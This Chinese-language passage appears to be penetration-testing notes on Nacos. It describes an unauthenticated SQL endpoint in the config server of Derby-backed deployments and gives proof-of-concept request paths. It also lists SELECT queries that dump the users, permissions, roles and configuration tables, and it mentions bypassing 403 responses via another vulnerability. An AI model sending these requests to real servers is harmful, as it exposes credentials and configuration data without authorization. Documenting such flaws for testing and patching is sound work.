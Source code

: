 获取ak、sk 示例：

![image-20230609161814152](images/image-20230609161814152.png)

如果返回为 403 Forbidden，可以尝试 CNVD-2023674205 漏洞绕过限制。

## 四、SQL 注入风险

### 漏洞描述

Nacos config server 中有未鉴权接口，执行 SQL 语句可以查看敏感数据，可以执行任意的 SELECT 查询语句。

漏洞点位于 nacos-config 的com.alibaba.nacos.config.server.controller.ConfigOpsController。

### 漏洞影响

```
使用derby数据库进行部署的Nacos
```

### 漏洞复现

poc：

```
/nacos/v1/cs/ops/derby?sql=select+*+from+sys.systables
```

```
/nacos/v1/cs/ops/derby?sql=select+st.tablename+from+sys.systables+st
```

一些查询语句：

```
select * from users
select * from permissions
select * from roles
select * from tenant_info
select * from tenant_capacity
select * from group_capacity
select * from config_tags_relation
select * from app_configdata_relation_pubs
select * from app_configdata_relation_subs
select * from app_list
select * from config_info_aggr
select * from config_info_tag
select * from config_info_beta
select * from his_config_info
select * from config_info
```
